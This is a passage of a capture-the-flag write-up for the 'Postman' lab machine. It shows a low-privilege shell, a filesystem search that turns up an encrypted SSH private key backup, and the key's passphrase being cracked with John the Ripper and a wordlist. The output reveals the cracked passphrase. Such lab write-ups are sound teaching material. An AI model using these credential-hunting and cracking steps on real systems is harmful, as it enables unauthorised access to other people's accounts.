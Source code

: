 ```
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jan  4 04:08:23 2020 from 10.10.14.247
redis@Postman:~$ id
uid=107(redis) gid=114(redis) groups=114(redis)
redis@Postman:~$ 
```
And we have a low privilege shell.

## Enumeration 2

The first thing I did was to run `LinEnum.sh`. But it did not yield any useful results. 
After searching around a bit, I finally found something useful.

```bash
redis@Postman:/opt$ find  / -name "*.bak" 2>/dev/null
/opt/id_rsa.bak
/var/backups/group.bak
/var/backups/gshadow.bak
/var/backups/shadow.bak
/var/backups/passwd.bak
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11 11:28 .
drwxr-xr-x 22 root root 4096 Aug 25 15:03 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26 00:11 id_rsa.bak
```
Looks like we have some interesting backup files belonging to user `Matt` . The `ssh` backup files permissions seems to be lax. 
I copied it to my system. The private key seems to be protected with a pass phrase.  
```bash
redis@Postman:/opt$ less id_rsa.bak 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
```
Lets see if we can crack it using `JTR`

#### John The Ripper

```
root@kali:~/Desktop/htb/postman# john --wordlist=/usr/share/wordlists/rockyou.txt /root/Desktop/htb/postman/crackjohnssh
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (./postman/file.bak)
1g 0:00:00:05 15.89% (ETA: 21:14:19) 0.1992g/s 497399p/s 497399c/s 497399C/s zinika..zini25
1g 0:00:00:26 DONE (2019-12-14 21:14) 0.03743g/s 536941p/s 536941c/s 536941C/sa6_123..*7¡Vamos!
Session completed
```
